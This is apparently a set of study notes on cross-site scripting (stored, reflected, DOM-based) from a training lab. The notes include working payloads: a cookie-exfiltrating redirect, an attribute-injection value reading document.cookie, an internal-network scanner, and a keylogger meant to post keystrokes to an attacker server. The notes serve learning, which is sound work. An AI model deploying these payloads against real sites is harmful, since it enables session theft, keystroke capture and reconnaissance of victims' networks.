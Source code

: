 # XSS (Cross-Site Scripting)

## Stored XSS

A website allows user input that is not sanitised.

<figure><img src="../.gitbook/assets/image (1) (3).png" alt=""><figcaption><p>An example Stored XSS</p></figcaption></figure>

`<script>alert(1)</script>`

`<script>document.querySelector('#thm-title').textContent = 'Hey'</script>`

`<script>document.location='/log/'+document.cookie</script>`

## Reflected XSS

The malicious payload is part of the victims request to the website.

The website includes this payload in response back to the user.

An attacker needs to trick a victim into clicking a URL to execute their malicious payload.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>An example Reflected XSS</p></figcaption></figure>

Some browsers have in-built XSS protection.

In FireFox complete the following steps:

In URL bar: about:config

Search: browser.urlbar.filter.javascript

Change the boolean value from True to False

## DOM-Based XSS

DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents.&#x20;

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>DOM</p></figcaption></figure>

With **reflective** xss, an attackers payload will be injected directly on the website and will not matter when other Javascript on the site gets loaded.

```html
<html>
    You searched for <em><script>...</script></em>
</html>
```

With **DOM-Based** xss, an attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with. It goes through a Javascript function like so:

```javascript
var keyword = document.querySelector('#search')
keyword.innerHTML = <script>...</script>
```

Example: Upload picture:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



`test" onmouseover="alert(document.cookie)"`



<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## IP & Port Scanner

For example, a website could try to find if your router has a web interface at 192.168.0.1 by:

`<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">`

The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255

```javascript
<script>
    for (let i = 0; i < 256; i++) { // This is looping from 0 to 255
        let ip = '192.168.0.' + i // Creates variable for forming IP
        // Creating an image element, if the resource can load, it logs to the /logs page.
        let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
        document.body.innerHTML += code // This is adding the image element to the webpage
    }
</script> 
```

## Key Logger

<pre class="language-javascript"><code class="lang-javascript">&#x3C;script type="text/javascript">
    let l = ""; // Variable to store key-strokes in
    document.onkeypress = function (e) { // Event to listen for key presses
<strong>        l += e.key; // If user types, log it to the l variable
</strong>        console.log(l); // update this line to post to your own server
    }
&#x3C;/script> </code></pre>

